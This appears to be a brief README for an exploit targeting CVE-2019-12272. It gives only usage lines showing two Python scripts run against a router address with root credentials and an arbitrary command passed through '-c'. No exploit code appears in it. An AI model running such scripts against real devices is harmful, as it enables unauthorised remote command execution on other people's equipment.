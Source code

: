 # EXP of cve-2019-12272

## usage

python  .\cve-2019-12272_bandwidth_status.py  -a 192.168.153.4 -u root -p root -c ls    
python  .\cve-2019-12272_wireless_status.py  -a 192.168.153.4 -u root -p root -c ls